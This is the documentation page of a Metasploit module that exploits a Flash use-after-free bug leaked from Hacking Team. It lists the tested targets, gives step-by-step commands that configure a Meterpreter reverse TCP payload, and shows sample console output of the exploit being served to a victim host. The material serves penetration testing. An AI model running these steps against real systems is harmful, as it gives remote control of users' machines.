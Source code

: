 ##Description

This module exploits an use after free on Adobe Flash Player. The vulnerability, discovered by Hacking Team and made public as part of the July 2015 data leak, was described as an Use After Free while handling ByteArray objects. This module has been tested successfully on:
Windows 7 SP1 (32-bit), IE11 and Adobe Flash 18.0.0.194,
Windows 7 SP1 (32-bit), Firefox 38.0.5 and Adobe Flash 18.0.0.194,
Windows 8.1 (32-bit), IE11 and Adobe Flash 18.0.0.194,
Windows 8.1 (32-bit), Firefox and Adobe Flash 18.0.0.194, and
Linux Mint "Rebecca" (32 bits), Firefox 33.0 and Adobe Flash 11.2.202.468.

## Verification Steps

1. Do: ```use exploit/multi/browser/adobe_flash_hacking_team_uaf```
2. Do: ```set payload windows/meterpreter/reverse_tcp```
2. Do: ```set LHOST [IP]```
3. Do: ```set SRVHOST [IP]```
3. Do: ```set URIPATH / [PATH]```
4. Do: ```run```

## Sample Output

```
msf > use exploit/multi/browser/adobe_flash_hacking_team_uaf
msf exploit(adobe_flash_hacking_team_uaf) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(adobe_flash_hacking_team_uaf) > set lhost 172.16.178.160
lhost => 172.16.178.160
msf exploit(adobe_flash_hacking_team_uaf) > set srvhost 172.16.178.160
srvhost => 172.16.178.160
msf exploit(adobe_flash_hacking_team_uaf) > set uripath /
uripath => /
msf exploit(adobe_flash_hacking_team_uaf) > show options

Module options (exploit/multi/browser/adobe_flash_hacking_team_uaf):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Retries  true             no        Allow the browser to retry the module
   SRVHOST  172.16.178.160   yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH  /                no        The URI to use for this exploit (default is random)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.178.160   yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf exploit(adobe_flash_hacking_team_uaf) > exploit
[*] Exploit running as background job.

[*] Started reverse TCP handler on 172.16.178.160:4444 
[*] Using URL: http://172.16.178.160:8080/
[*] Server started.
msf exploit(adobe_flash_hacking_team_uaf) > [*] 172.16.178.203   adobe_flash_hacking_team_uaf - Gathering target information for 172.16.178.203
[*] 172.16.178.203   adobe_flash_hacking_team_uaf - Sending HTML response to 172.16.178.203
```
